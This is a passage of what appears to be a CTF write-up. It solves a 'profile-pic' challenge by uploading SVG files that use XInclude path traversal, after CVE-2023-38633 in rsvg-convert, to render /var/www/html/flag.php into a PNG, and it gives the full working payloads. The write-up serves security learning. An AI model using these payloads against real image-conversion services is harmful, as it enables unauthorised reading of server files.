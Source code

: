```ctf{fb2570e300e4cf45c27011642df6f894add029290dd6451b5cb7a8f505523337}```
## profile-pic
### Flag proof
```ctf{af0a742b17dd73ca3d8ff27c885350a890c4ab104670fa3373de63c7709925b0}```
### Summary
include text file `flag.php` in the svg. When converted, resulting png will show text from the file.
### Details

Based on this [article](https://www.canva.dev/blog/engineering/when-url-parsers-disagree-cve-2023-38633/) I found that one can do that and that it worked even on my local `rsvg-convert` binary so I tried it and it worked.

```xml
<?xml version="1.0" encoding="UTF-8" standalone="no" ?>
<svg width="50" height="50" xmlns:xi="http://www.w3.org/2001/XInclude">
  <rect width="50" height="50" style="fill:rgb(255,204,204);" />
  <text x="0" y="25">
    <xi:include
      href=".?../../../../../../../var/www/html/flag.php"
      parse="text"
      encoding="ASCII"
    >
      <xi:fallback>haide</xi:fallback>
    </xi:include>
  </text>
</svg>
```
This file unfortunately shows us just a few letters.

![image](https://github.com/vektor8/CTF-Writeups/assets/56222237/51f33120-2e9f-4f00-a008-d30d70f4e4cb)


In order to address this we just reduce x to move further right.

```xml
<?xml version="1.0" encoding="UTF-8" standalone="no" ?>
<svg width="50" height="50" xmlns:xi="http://www.w3.org/2001/XInclude">
  <rect width="50" height="50" style="fill:rgb(255,204,204);" />
  <text x="-40" y="25">
    <xi:include
      href=".?../../../../../../../var/www/html/flag.php"
      parse="text"
      encoding="ASCII"
    >
      <xi:fallback>haide</xi:fallback>
    </xi:include>
  </text>
</svg>
```

![image](https://github.com/vektor8/CTF-Writeups/assets/56222237/675f94d3-b592-4137-9980-f96fa46ee290)

Now, we just need to reduce x several times, until we manage to note down the whole flag.

## wicked-monitoring
TODO

## wicked-firmware
TODO
